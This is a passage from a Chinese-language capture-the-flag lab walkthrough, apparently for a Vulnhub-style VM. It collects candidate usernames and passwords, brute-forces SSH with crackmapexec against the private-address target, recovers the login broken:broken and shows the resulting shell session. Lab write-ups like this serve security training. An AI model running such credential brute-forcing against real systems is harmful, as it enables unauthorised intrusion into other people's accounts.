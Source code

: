 
- 卡住了... 怀疑是作者故意的...

## ssh爆破

- 收集已知的所有用户名以及密码信息,进行ssh爆破尝试

- ```shell
  └─$ cat crash                                        
  gallery
  5terre
  forest
  lights
  mountains
  terre
  Bob
  bob
  cheers
  avrahamcohen.ac
  avrahamcohen
  tem1e1xnnqy
  BROKEN
  broken
  ```

- 这里推荐使用`crackmapexec`,在使用`hydra`进行破解由于速度过快,会导致当前靶机频繁重置ssh连接

- ```shell
  └─$ crackmapexec ssh 192.168.2.14 -u crash -p crash --continue-on-success | grep "+"
  SSH         192.168.2.14    22     192.168.2.14     [+] broken:broken
  ```
  
- ssh登录信息:`broken`:`broken`

#### 获得初始权限

- ```shell
  └─$ ssh broken@192.168.2.14
  broken@192.168.2.14's password: 
  Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)
  
   * Documentation:  https://help.ubuntu.com/
  
  762 packages can be updated.
  458 updates are security updates.
  
  Last login: Fri Aug  9 02:40:48 2019 from 10.11.1.221
  broken@ubuntu:~$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:54:ae:2d brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.14/24 brd 192.168.2.255 scope global dynamic ens33
         valid_lft 1278sec preferred_lft 1278sec
      inet6 fe80::c3a7:5822:f3b9:ad34/64 scope link 
         valid_lft forever preferred_lft forever
  broken@ubuntu:~$ whoami
  broken
  broken@ubuntu:~$ uanme -a
  No command 'uanme' found, did you mean:
   Command 'uname' from package 'coreutils' (main)
  uanme: command not found